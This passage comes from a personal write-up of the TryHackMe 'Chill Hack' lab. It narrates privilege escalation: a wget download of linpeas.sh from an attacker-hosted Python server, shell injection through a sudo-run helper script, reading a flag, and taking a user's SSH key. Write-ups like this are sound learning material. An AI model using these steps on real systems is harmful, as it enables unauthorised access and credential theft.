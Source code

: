 I tried to inject `reverse shel` to escalate my privileges ,but still I encounter permission issues:

![[TryHackMe/Chill Hack/images/24.png]]

![[TryHackMe/Chill Hack/images/25.png]]

By utilizing `wget`, sending `linpeas.sh` unlocked. Let me run `linpeas`:

Deploy `python` local server with `python -m http.server 3000`

`wget http://10.14.92.189:3000/linpeas.sh`

![[TryHackMe/Chill Hack/images/26.png]]

Give executable permission -> `chmod +x linpeas.sh`

Then...

`linpeas.sh` keep frozen ,so let me move `.helpline.sh` again.

I thought that the file was located on different directory `apaar` ,so what If I run as `apaar` to this script.

`sudo -u apaar /home/apaar/.helpline.sh`

It works ! ! !

Now, lets embed another python `reverse shell`:

![[TryHackMe/Chill Hack/images/28.png]]

Since the `script` reflects my commands, embedding direct shell may work !

![[TryHackMe/Chill Hack/images/29.png]]

`/bin/bash` then `/bin/sh` worked on my instance.

`message` variable gets whatever we give whether it is string or command. However, spawning straight shell gave the result ultimately.

![[TryHackMe/Chill Hack/images/30.png]]

`apaar` also can run `.helpline.sh` exactly as it is.

![[TryHackMe/Chill Hack/images/31.png]]

Reach user flag with the one-liner command `cd /home/apaar; cat local.txt;`

After that, I discovered an `.ssh` directory then it may be compatible and easier to upgrade my shell to direct `SSH` shell. In my opinion, reverse shell intentionally stucks on `/bin/sh` shell. `SSH` may work more compatible.

![[TryHackMe/Chill Hack/images/32.png]]

I got the `SSH` private key of `apaar`. Generate with the following command:

`ssh-keygen -f apaar`
